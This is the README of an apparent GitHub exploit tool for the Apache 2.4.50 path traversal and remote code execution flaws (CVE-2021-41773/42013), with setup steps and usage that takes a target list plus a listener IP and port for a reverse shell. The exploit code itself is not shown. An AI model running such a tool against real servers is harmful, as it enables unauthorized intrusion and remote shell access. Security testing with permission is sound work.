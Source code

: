 # Apache-HTTP-Server-2.4.50-RCE

This tool is designed to test Apache servers for the CVE-2021-41773 / CVE-2021-42013 vulnerability. It is intended for educational purposes only and should be used responsibly on systems you have explicit permission to test.

## Installation:

### Clone the repository:
   ```bash
   git clone https://github.com/Zyx2440/Apache-HTTP-Server-2.4.50-RCE.git
```
### Go to the dir:
   ```bash
   cd Apache-HTTP-Server-2.4.50-RCE
```
### install The Requirements:
   ```bash
   pip3 install requests~=2.27.1 termcolor~=1.1.0
   ```
### or:
```bash
   pip3 install -r add_requirements.txt
   ```
### usage: 
   ```bash
   python3 50512.py target.txt -ip <YourIp> -p <ThePort>
   the text file should contain the url of the target
```

### Example:
```bash
python3 50512.py target.txt -ip 10.0.2.15 -p 4444
```
![apache](png/py.jpg)

### check the version of Apache and run exploit:

![apache](png/RunExploit.jpg)

### Remote Code Execution (RCE):

![apache](png/passwd.jpg)
   
# What the Script Does ???
   Apache Version Check: For each URL in the provided file, it checks whether the server is running Apache version 2.4.50.

### Exploit Testing:
   If the server is vulnerable: It attempts to exploit the server by sending payloads to either trigger directory traversal attacks or       execute code remotely.
   If CGI is enabled: It tries to inject a reverse shell payload to gain remote access.

# Warning !!!!!:
   For Educational Use Only: The script is intended for educational purposes to demonstrate how vulnerabilities can be tested and             exploited. Using this script against unauthorized targets is illegal and unethical.

### additionally info:
#### Original Author: calfcrusher@inventati.org
#### Modified by: Zyx2440
Purpose of modification: Added additional error handling and optimized the payload logic adn RCE and remove cve 
